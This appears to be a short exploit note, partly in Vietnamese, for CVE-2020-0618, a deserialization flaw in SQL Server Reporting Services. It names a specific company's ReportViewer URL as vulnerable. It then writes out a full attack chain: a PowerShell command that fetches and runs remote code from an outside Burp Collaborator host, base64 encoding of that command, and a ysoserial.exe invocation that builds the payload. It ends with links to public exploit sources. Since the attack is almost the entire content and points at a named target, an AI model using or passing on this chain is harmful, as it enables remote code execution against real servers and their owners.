 # CVE-2020-0618
Melissa
https://status.melissa.com/ReportServer_CUSTOMERSQL/Pages/ReportViewer.aspx <- link bị dính lỗ hổng

$command = '(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr("https://qoigyuef2a4z1a7rsir6lvi3eukl8a.burpcollaborator.net/In")|iex'

$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)

$encodedCommand = [Convert]::ToBase64String($bytes)

.\ysoserial.exe -g TypeConfuseDelegate -f LosFormatter -c "powershell.exe -encodedCommand $encodedCommand" -o base64 | clip

# Tham khảo:
 - https://github.com//euphrat1ca//CVE-2020-0618
 - https://www.exploit-db.com/exploits/48816
 - https://github.com/pwntester/ysoserial.net/releases
